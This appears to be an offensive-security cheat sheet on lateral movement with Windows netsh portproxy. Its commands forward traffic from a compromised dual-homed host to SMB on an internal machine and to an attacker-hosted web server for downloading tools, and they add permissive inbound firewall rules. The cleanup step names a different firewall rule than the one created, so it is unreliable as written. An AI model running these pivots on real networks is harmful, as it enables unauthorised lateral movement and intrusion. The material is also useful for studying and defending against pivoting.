


## Overview
---
**Netsh** is a command-line scripting utility that allows you to display or modify network configuration settings. The **portproxy** function within Netsh enables you to configure port forwarding and address translation for network traffic between different systems, facilitating routing and redirection of network traffic from one port to another.

## Usage
---
Below is port forwarding syntax allowing us to forward traffic back to a port on our attacker (e.g., access to a simple web server hosting tools)

```powershell
netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=<client_port> connectaddress=<attacker_ip> connectport=<attacker_port>
```

Above code would be running on a compromised <client_01> and allow <client_02> to reach a specified port on our attacker box. 

Shitty Diagram Below:
```
	                    | FW |
<client_02> ---> <client_01>:<port> ---> <attacker_ip><port>
						| FW |
```


**Diagram V2:**

```powershell
# Attacker: 192.168.1.10 | Client 1: 192.168.1.11, 10.10.10.11 | Client 2: 10.10.10.12 

# Port forward on Client 1 allowing attacker to reach port 445 on Client 2
netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=6969 connectaddress=10.10.10.12 connectport=445

netsh advfirewall firewall add rule name="Example Port Forward" dir=in action=allow protocol=TCP localport=6969

# Result: Attacker can now reach Client 2 (10.10.10.12:445) by hitting Client 1 (192.168.1.11:6969) | Pending Firewall


# Port forward allowing Client 2 to download files from an Attacker web server
netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=6969 connectaddress=192.168.1.10 connectport=80
# Client 2 can now pull files from an Attacker web server (192.168.1.10:80) by hitting Client 1 (10.10.10.11:6969) | Pending Firewall
```

### Examples

- **Attacker**: 192.168.1.10
- **Client 1 (Dual NIC'd)**: 192.168.1.11, 10.10.10.11
- **Client 2**: 10.10.10.12

**Example 1**: 

```powershell
# Port forward on Client 1 allowing Attacker to reach port 445 on Client 2
netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=6969 connectaddress=10.10.10.12 connectport=445

# Add a Firewall rule to allow traffic through open port
netsh advfirewall firewall add rule name="Example Port Forward" dir=in action=allow protocol=TCP localport=6969
```



Example 2:

```powershell
# Port forward allowing Client 2 to download files from an Attacker web server
netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=6969 connectaddress=192.168.1.10 connectport=80

# Add a Firewall rule to allow traffic through open port
netsh advfirewall firewall add rule name="Example Port Forward" dir=in action=allow protocol=TCP localport=6969

# Remove port proxy
netsh interface portproxy delete v4tov4 listenport=6969
# Remove firewall rule
netsh advfirewall firewall delete rule name="Proxy all the things"
```

- Mermaid Diagram:


- Shitty ASCII Diagram:
```
	                    | FW |
<client_02> ---> <client_01>:<port> ---> <attacker_ip><port>
						| FW |
```

